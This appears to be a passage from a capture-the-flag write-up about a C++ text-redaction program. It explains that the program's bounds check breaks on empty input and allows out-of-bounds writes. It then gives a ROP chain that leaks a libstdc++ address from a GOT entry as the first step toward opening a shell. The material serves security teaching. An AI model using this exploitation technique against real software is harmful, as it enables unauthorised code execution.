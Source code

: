 ```
  }
  std::cout << "Enter the index of the stuff to redact: ";
  int index;
  if (!(std::cin >> index)) {
    std::cout << "Failed to read index\n";
    return 1;
  }
  if (index < 0 || index > text.size() - placeholder.size()) {
    std::cout << "Invalid index\n";
    return 1;
  }
  std::copy(placeholder.begin(), placeholder.end(), text.begin() + index);
  std::cout << text << '\n';
}
```

The program takes in some text and a placeholder, and inserts the placeholder at a specified index in the text. For example:

```
Enter some text: this is some text
Enter a placeholder: hello
Enter the index of the stuff to redact: 2
thhello some text
```

You're not allowed to put the placeholder in an index that would go outside the bounds of the text. However, the bounds checking is flawed:

```
if (index < 0 || index > text.size() - placeholder.size()) {
```

If `text.size()` is zero, then `text.size() - placeholder.size()` becomes negative (assuming the placeholder is non-empty), so we can essentially write with any index.

Now, we just need to use ROP to exploit the binary. The steps are:

1) Leak a `libc`/`libstdc++` address
2) Open a shell

To do step 1, we can use the GOT entry for `<EXTERNAL>::__cxa_atexit` (which is at `0x404050`), which holds a `libstdc++` pointer. The chain looks like this:

```
# jump to 0x40141c (cout << rsi << endl)
# return to main
ropchain = p64(POP_RSI_POP_R15)
ropchain += p64(__CXA_ATEXIT_GOT)
ropchain += p64(0)
ropchain += p64(POP_RDI)
ropchain += p64(STD_COUT)
ropchain += p64(COUT)
ropchain += p64(_START)
```
